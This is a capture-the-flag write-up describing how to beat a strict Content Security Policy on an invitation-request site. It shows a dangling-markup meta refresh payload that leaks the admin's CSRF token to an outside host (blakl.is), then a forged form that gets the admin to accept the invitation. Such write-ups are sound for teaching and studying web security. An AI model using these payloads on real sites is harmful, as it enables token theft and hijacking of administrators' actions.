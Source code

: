 # A world without JS (400 points)

This challenge is a system for asking an invitation to an event. We're able to create an account and to ask the organizer to be invited to an event, with a comment.
We fastly saw that the comment is vulnerable to an XSS; however, the Content Security Policy is blocking pretty much everything, and we're not able to include some javascript to trap the admin easily.

Here is the templating in charge of displaying our invitation demand to the admin : 

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/css/bulma.min.css">
    <link rel="stylesheet" href="/css/font-awesome.min.css">
    <title>ARaaS - Administration</title>
</head>
<body>
    {{> navbar }}
    <section class="section">
        <div class="container">
            <h1 class="title">
                Process invitation #{{ invitation.getId }}
            </h1>
            <hr>
            <div class="content">
                <p>{{{ invitation.getComment }}}</p>
                <!-- "` --><!-- </textarea> --></form></option><form action="/admin.php" method="post">
                    <input type="hidden" name="{{ anticsrf.getTokenName }}" value="{{ anticsrf.getToken }}">
                    <input type="hidden" name="id" value="{{ invitation.getId }}">
                    <div class="control">
                        <label class="radio">
                            <input type="radio" name="status" value="1">
                            Accept
                        </label>
                        <label class="radio">
                            <input type="radio" name="status" value="-1" checked>
                            Reject
                        </label>
                    </div>
                    <div class="field">
                        <p class="control">
                            <button class='button is-success' type='submit' id='submit'>
                                Process
                            </button>
                        </p>
                    </div>
                </form>
            </div>
        </div>
    </section>
</body>
</html>
```

What we control, and where we can inject HTML, is the *{{{ invitation.getComment }}}* part. The goal is to force the admin to accept our invitation.

Three things is to note :
* The form is protected with a CSRF token; the code indicates that it's valid for 1028 requests :);
* A line was added to prevent us from adding another <form> or to wrap everything in a <textarea>, a HTML comment or even a backtick and a double quote.
* However, it doesn't prevent the injection of a single quote to capture most of the form.

My first idea was to play with <base> to redirect the form on another page, and eventually exfiltrate the form data, but found nothing interesting. Instead, I tried to exfiltrate the content of the page, using the ' tricks.

What came in my mind is the <meta> tag that permits to redirect any user to a controlled website. By injecting a <meta> tag with an url attribute beginning by a single quote, we can exfiltrate all of the form to another website.

The following payload
```html
<META http-equiv="refresh" content="0; URL='http://blakl.is/?
```

will result in the following tag rendered to the administrator
```html
<META http-equiv="refresh" content="0; URL='http://blakl.is/?</p>
                <!-- "` --><!-- </textarea> --></form></option><form action="/admin.php" method="post">
                    <input type="hidden" name="csrf-token" value="ADMINTOKEN">
                    <input type="hidden" name="id" value="INVITATIONI">
                    <div class="control">
                        <label class="radio">
                            <input type="radio" name="status" value="1">
                            Accept
                        </label>
                        <label class="radio">
                            <input type="radio" name="status" value="-1" checked>
                            Reject
                        </label>
                    </div>
                    <div class="field">
                        <p class="control">
                            <button class=' [...]>
```

Consequently, the CSRF token will be leaked to http://blakl.is/ when the administrator will be redirected. By retrieving it, we can simply craft a new form to phish the admin.

The final payload is the following : 

```html
<form action="/admin.php" method="post">
	<input type="hidden" name="csrf-token" value="LEAKEDCSRFTOKEN">
	<input type="hidden" name="id" value="INVITATIONID">
	<input type="text" name="status" value="1">
	<div class="field">
		<p class="control">
			<button class='button is-success' type='submit' id='submit'>
				Process
			</button>
		</p>
	</div>
</form><p bla='
```

The administrator will click on the submit button, and tada! The invitation is accepted, and the flag is displayed.

Do not hesitate to ask for explanations if necessary, dm me on twitter @Blaklis_ !

*Blaklis from sec0d*




